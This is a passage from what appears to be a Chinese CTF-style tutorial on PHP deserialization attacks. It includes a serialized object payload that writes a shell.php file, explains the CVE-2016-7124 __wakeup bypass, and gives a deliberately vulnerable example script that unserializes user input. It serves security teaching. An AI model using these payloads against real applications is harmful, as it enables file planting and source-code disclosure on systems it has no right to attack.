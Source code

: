 这串代码的意思是将读取的文件内容进行反序列化，`__destruct`函数里面是生成文件，如果我们本地存在一个文件名是`flag.txt`，里面的内容是

```php
O:3:"foo":2:{s:4:"file";s:9:"shell.php";s:4:"data";s:18:"<?php phpinfo();?>";}
```

将它进行反序列化就会生成`shell.php`里面的内容为`<?php phpinfo();?>`

## __wakeup绕过(CVE-2016-7124)

CVE-2016-7124：当序列化字符串中表示对象属性个数的值大于真实的属性个数时会跳过__wakeup的执行

>官方给出的影响版本：
>`PHP5 < 5.6.25`
>`PHP7 < 7.0.10`
>笔者使用phpstudy_pro测试出来的影响版本：
>`PHP5 <= 5.6.9`
>`PHP7 < 7.0.10`

### 例题:

```php
//test.php
<?php
class MoChu{
	protected $file="test.php";
	function __destruct(){
		if(!empty($this->file)){
			if(strchr($this->file,"\\")===false && strchr($this->file,'/')===false)
				show_source(dirname(__FILE__).'/'.$this->file);
			else
				die('Worng filename.');
		}
	}
	function __wakeup(){
		$this->file = 'test.php';
	}
	public function __toString(){
		return '';
	}
}

if(!isset($_GET['file'])){
	show_source('test.php');
}else{
	$file=base64_decode($_GET['file']);
	echo unserialize($file);
}
echo phpversion();
?>  
```

代码很简单就是原本的功能就是显示源码，主要是这里如何绕过反序列化之后执行的`__wakeup()`方法中的`$this->file='test.php'`来读取别的文件，这里就是使用`CVE-2016-7124：当序列化字符串中表示对象属性个数的值大于真实的属性个数时会跳过__wakeup的执行`
